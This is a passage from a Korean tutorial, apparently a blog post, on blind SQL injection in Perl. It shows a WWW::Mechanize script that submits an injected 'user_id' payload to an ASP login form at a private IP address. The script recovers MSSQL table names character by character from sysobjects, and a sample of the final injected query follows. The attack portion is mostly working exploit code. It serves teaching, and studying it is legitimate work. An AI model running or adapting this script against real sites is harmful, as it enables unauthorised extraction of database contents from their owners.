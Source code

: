                 $mech->submit_form(
                    form_name => 'form',
                    fields    => {
                        user_id => "mana' and substring((select top 1 name from sysobjects where xtype='U' $base_query),$i,1)='$char'--",
                        user_pw => 'blah'
                    }
                );

                if ( $char eq "" && $mech->content !~ /alert/ ) {
                    $mech->get(
                        'http://172.168.19.133/member/member_logout.asp');
                    $inner_flag = 1;
                    last;
                }

                unless ( $mech->content =~ /alert/ ) {
                    print $char;
                    push @table_name, $char;
                    $i++;
                    $outter_flag = 0;
                    $mech->get('http://172.168.19.133/member/member_logout.asp');
                    last;
                }
            }

            if ($inner_flag) {
                push @all_table, join( '', @table_name );
                $base_query .= " and name!='" . join( '', @table_name ) . "' ";
                print "\n";
                $i          = 1;
                @table_name = ();
                last;
            }
        }
    }

`$base_query` 변수는 반복문을 돌면서 계속 변하는 값입니다.
처음에는 ` and name != 'table1'`으로 시작해 ` and name != 'table1' and name != 'table2'`와
같은 식으로 계속해서 첨부되어 갱신됩니다.
나머지 내용은 데이터베이스 이름을 알아오는 이전 코드와 거의 동일합니다.

마지막 질의만 확인해 본다면 꽤 길겠죠?

    #!sql
    mana' and substring((select top 1 name from sysobjects where xtype='U'  and name!='table1'  and name!='table2'  and name!='table3' ),7,1)=''--

C나 JAVA를 알고 있다면 지금까지의 내용을 해당 언어로 작성해 보는 것을 추천드립니다.
그래야 펄을 쓰고 싶어지거든요. ;-)


컬럼 이름 찾기
---------------
